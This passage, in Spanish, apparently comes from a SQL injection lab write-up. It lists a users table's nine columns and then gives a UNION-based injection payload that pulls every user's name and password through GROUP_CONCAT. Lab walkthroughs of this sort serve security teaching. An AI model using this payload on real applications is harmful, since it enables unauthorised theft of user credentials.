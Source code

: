 Ahora sabemos que la tabla users tiene 9 columnas que son:
- id
- name
- email
- avatar
- username
- password
- about
- last_activity
- join_date

## Ver todos los usuarios de la tabla users
Conociendo que la tabla que contiene los usuarios se llama users y que tiene 9 columnas, montamos una consulta para que nos de todos los usuario y sus contraseñas:

Consulta SQL →
```
SELECT * FROM users WHERE username= '999' UNION SELECT null, GROUP_CONCAT( name,': ',password,' —-- '), null, null, null, null, null, null, null  from users ORDER by name # lo que sea
```

Inyección →
```
999' UNION SELECT null, GROUP_CONCAT( name,': ',password,' — '), null, null, null, null, null, null, null  from users ORDER by name # lo que sea
```
![](capturas/sql-injection-lab2-9.png)
